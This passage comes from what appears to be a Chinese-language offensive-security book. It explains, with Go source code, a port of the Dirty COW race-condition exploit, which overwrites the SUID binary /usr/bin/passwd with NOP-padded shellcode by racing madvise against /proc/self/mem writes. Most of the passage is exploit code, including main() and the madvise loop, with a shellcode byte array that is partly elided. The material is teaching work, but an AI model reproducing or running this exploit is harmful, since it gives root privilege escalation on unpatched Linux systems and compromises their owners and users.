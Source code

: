 ```go
        log.Fatal(err) 
    }

    fmt.Printf("Size of binary: %d\n", st.Size())

    payload := make([]byte, st.Size()) 
    for i, _ := range payload {
        payload[i] = 0x90 
    }
    for i, v := range sc { 
        payload[i] = v
    }

    mapp, _, _ = syscall.Syscall6( 
        syscall.SYS_MMAP,
        uintptr(0), 
        uintptr(st.Size()), 
        uintptr(syscall.PROT_READ), 
        uintptr(syscall.MAP_PRIVATE), 
        f.Fd(),
        0,
    )

    fmt.Println("Racing, this may take a while..\n") 
    go madvise()
    go procselfmem(payload)
    waitForWrite()
}
```

清单 9-13: Go中的 _main\(\)_ 函数

`main()` 函数首先备份目标可执行文件。由于最终要覆盖它，因此不想丢失原始版本；这样做可能会对系统造成不好的影响。虽然C可以通过调用 `system()` 将整个命令作为一个字符串传给它来运行操作系统命令，但是Go需要依赖于 `exec.Command()` 函数，该函数将命令作为单独的参数传递。接下来，以只读模式打开SUID目标文件，检索文件统计信息，然后使用它们来初始化与目标文件大小相同的有效负载切片。在C语言中，通过调用 `memset()`，使用NOP \(0x90\)指令填充数组，然后通过调用`memcpy()`，使用shellcode复制数组的一部分。Go中则没有这样便利的函数。

相反，在Go中，循环遍历切片元素，并每次手动填充一个字节。之后，将对 `mapp()` 函数发出Linux系统调用，该函数会将目标SUID文件的内容映射到内存。对于以前的系统调用，可以通过搜索Linux文档来找到 `mapp()` 所需的参数。可能会注意到，Go代码调用`syscall.Syscall6()` 而不是调用 `syscall.Syscall()` 。`Syscall6()` 需要六个参数的系统调用，与 `mapp()` 一样。最后，代码启动了两个协程，并发地调用 `madvise()` 和 `procselfmem()` 函数。当竞争条件出现时，调用 `waitForWrite()` 函数，该函数监控SUID文件的改动，向线程发出停止的信号并执行恶意代码。

为了完整起见，清单9-14是移植的Go代码的全部内容。

```go
var mapp uintptr
var signals = make(chan bool, 2) 
const SuidBinary = "/usr/bin/passwd"

var sc = []byte{
    0x7f, 0x45, 0x4c, 0x46, 0x02, 0x01, 0x01, 0x00, 0x00, 0x00, 0x00, 0x00, 
    --snip--
    0x68, 0x00, 0x56, 0x57, 0x48, 0x89, 0xe6, 0x0f, 0x05,
}

func madvise() {
    for i := 0; i < 1000000; i++ {
        select {
            case <- signals:
            fmt.Println("madvise done")
            return
        default:
            syscall.Syscall(syscall.SYS_MADVISE, mapp, uintptr(100), syscall.MADV_DONTNEED) }
    } 
}
```